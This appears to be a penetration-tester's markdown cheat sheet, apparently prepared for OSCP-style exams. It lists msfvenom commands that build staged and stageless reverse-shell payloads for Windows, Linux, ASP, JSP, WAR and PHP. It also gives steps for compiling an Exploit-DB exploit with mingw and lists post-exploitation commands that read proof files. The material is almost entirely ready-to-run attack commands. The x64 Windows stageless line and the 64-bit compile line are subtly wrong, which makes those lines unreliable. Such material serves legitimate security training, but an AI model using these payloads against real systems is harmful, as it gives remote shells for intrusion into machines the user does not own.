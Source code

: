 ## MSFVenom Reverse Shell Payload Cheatsheet (see stageless)
- https://infinitelogins.com/2020/01/25/msfvenom-reverse-shell-payload-cheatsheet/
- Windows file transfer only uses **FTP, powershell, certutil**
```bash 
#Non-Meterpreter Binaries

#Staged Payloads for Windows
msfvenom -p windows/shell/reverse_tcp LHOST=<IP> LPORT=<PORT> -f exe > shell-x86.exe
msfvenom -p windows/x64/shell_reverse_tcp LHOST=<IP> LPORT=<PORT> -f exe > shell-x64.exe

#Stageless Payloads for Windows
msfvenom -p windows/shell_reverse_tcp LHOST=<IP> LPORT=<PORT> -f exe > shell-x86.exe
msfvenom -p windows/shell_reverse_tcp LHOST=<IP> LPORT=<PORT> -f exe > shell-x64.exe

#Staged Payloads for Linux
msfvenom -p linux/x86/shell/reverse_tcp LHOST=<IP> LPORT=<PORT> -f elf > shell-x86.elf
msfvenom -p linux/x64/shell/reverse_tcp LHOST=<IP> LPORT=<PORT> -f elf > shell-x64.elf

#Stageless Payloads for Linux
msfvenom -p linux/x86/shell_reverse_tcp LHOST=<IP> LPORT=<PORT> -f elf > shell-x86.elf
msfvenom -p linux/x64/shell_reverse_tcp LHOST=<IP> LPORT=<PORT> -f elf > shell-x64.elf

#Non-Meterpreter Web Payloads
msfvenom -p windows/shell/reverse_tcp LHOST=<IP> LPORT=<PORT> -f asp > shell.asp
msfvenom -p java/jsp_shell_reverse_tcp LHOST=<IP> LPORT=<PORT> -f raw > shell.jsp
msfvenom -p java/jsp_shell_reverse_tcp LHOST=<IP> LPORT=<PORT> -f war > shell.war
msfvenom -p php/reverse_php LHOST=<IP> LPORT=<PORT> -f raw > shell.php
```

## compiling windows exploit on kali
```bash
#compile C code
gcc -o syncbreeze_exploit.exe exploit.c

#compile 32 bit
apt install mingw-w64
i686-w64-mingw32-gcc /usr/share/exploitdb/exploits/windows/dos/42341.c -o syncbreeze_exploit.exe -lws2_32

#compile 64 bit
$ gcc i686-w64-mingw32-gcc exploit.c -o exploit.exe
```

## Post exploitation evidence
```bash
cat /root/proof.txt
whoami
ip a```

```bash
type local.txt
type "C:\Documents and Settings\Administrator\Desktop\proof.txt"
systeminfo
ipconfig
```
